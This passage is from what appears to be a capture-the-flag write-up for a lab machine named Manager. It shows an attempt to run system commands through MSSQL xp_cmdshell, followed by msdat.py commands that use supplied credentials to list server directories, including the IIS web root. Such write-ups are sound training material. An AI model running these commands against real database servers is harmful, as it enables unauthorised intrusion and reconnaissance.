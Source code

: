 We can try to Crack the hash with john the ripper or Hashcat in my case i try with John but that don’t work for me 🤧

Try to execute commande on the mssql shell : 

```bash
enable_xp_cmdshell

xp_cmdshell whoami
```

Oh no… we don’t have de the permission ! 

We can try to read and list file/Directory on the server if a tool name msdat.py 

[GitHub - quentinhardy/msdat: MSDAT: Microsoft SQL Database Attacking Tool](https://github.com/quentinhardy/msdat)

List the `C:\` Directory : `python3 msdat.py xpdirectory -s 10.10.11.236 -U Operator -P operator -D manager.htb --list-files 'C:\'`

![Untitled](assets/Manager/mssqlexploit.png)

Ok that have work lets found some information, We know that there is a website on the server, let’s look at the directory /inetpub/ : 

```bash
# enumerate /inetpub
python3 msdat.py xpdirectory -s 10.10.11.236 -U Operator -P operator -D manager.htb --list-files 'C:\inetpub\'

# enumerate /inetpub/wwwroot
python3 msdat.py xpdirectory -s 10.10.11.236 -U Operator -P operator -D manager.htb --list-files 'C:\inetpub\wwwroot'
```

![Untitled](assets/Manager/webdirectory.png)

